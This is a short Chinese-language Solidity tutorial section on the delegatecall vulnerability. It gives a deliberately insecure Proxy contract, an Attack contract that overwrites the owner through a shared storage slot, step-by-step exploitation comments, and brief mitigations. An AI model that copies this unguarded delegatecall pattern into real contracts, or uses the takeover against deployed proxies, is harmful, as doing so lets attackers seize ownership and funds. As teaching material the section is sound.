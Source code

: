 # 第20节：安全事故10-delegatecall攻击

当合约中存在delegatecall操作时，要格外小心，我们可以把使用delegatecall的合约当成代理合约，可以通过业务合约（Attack合约）来对代理合约进行升级，从而修改了代理合约中的数据。

以下案例中，我们通过Attack合约完成了对Proxy合约的owner修改。

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.8;

// 操作步骤：
// 1. 使用account0部署Proxy，此时owner是account0
// 2. 使用account1部署Attack，得到地址attack_addr
// 3. 调用forward(attack_addr, 0x40caae06)
// 4. 检查owner地址，此时由account0变成了account1

contract Proxy {
    address public owner;
    constructor() {
        owner = msg.sender;  
    }

    // _data: 0x40caae06
    function forward(address callee, bytes memory _data) public {
        (bool success, ) = callee.delegatecall(_data);
        require(success, "tx failed!");
    }
}

contract Attack {
    address public owner;
    function setOwner() public {
        owner = tx.origin;
    }
}
```

解决方案：

1. 尽量避免使用delegatecall
2. 如果必要使用，可以考虑权限控制、对callee的控制等，至少不能任由外界进行随便调用。